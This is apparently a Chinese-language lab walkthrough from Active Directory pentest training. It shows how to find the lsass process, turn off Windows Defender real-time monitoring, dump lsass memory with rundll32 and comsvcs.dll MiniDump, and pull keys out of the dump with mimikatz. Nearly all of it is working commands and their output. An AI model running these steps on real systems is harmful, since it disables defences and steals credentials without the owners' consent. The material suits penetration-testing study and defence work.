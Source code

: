 这里使用另一种方法dump出靶机上的哈希

首先离线存储lsass.exe里的数据

查看lsass的PID
```
PS C:\Users\jumpone$> tasklist /FI "IMAGENAME eq lsass.exe"
tasklist /FI "IMAGENAME eq lsass.exe"

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
lsass.exe                      704 Services                   0     17,992 K
```

PID:704

先关闭wd
```
Set-MpPreference -DisableRealtimeMonitoring $true
```


转存lsass的数据到本地

```
C:\Users\jumpone$>rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 704 C:\Users\Public\lsass.dmp full
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 704 C:\Users\Public\lsass.dmp full

C:\Users\jumpone$>dir C:\Users\Public\lsass.dmp
dir C:\Users\Public\lsass.dmp
 Volume in drive C has no label.
 Volume Serial Number is 88AD-6C8B

 Directory of C:\Users\Public

11/01/2022  07:38 AM        47,301,370 lsass.dmp
               1 File(s)     47,301,370 bytes
               0 Dir(s)  16,105,525,248 bytes free
```

已存储到```C:\Users\Public\lsass.dmp```


## mimikatz根据离线文件dump出哈希

```
c:\AD\Tools\mimikatz_trunk\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # sekurlsa::minidump C:\AD\Tools\lsass.DMP
Switch to MINIDUMP : 'C:\AD\Tools\lsass.DMP'

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys
```
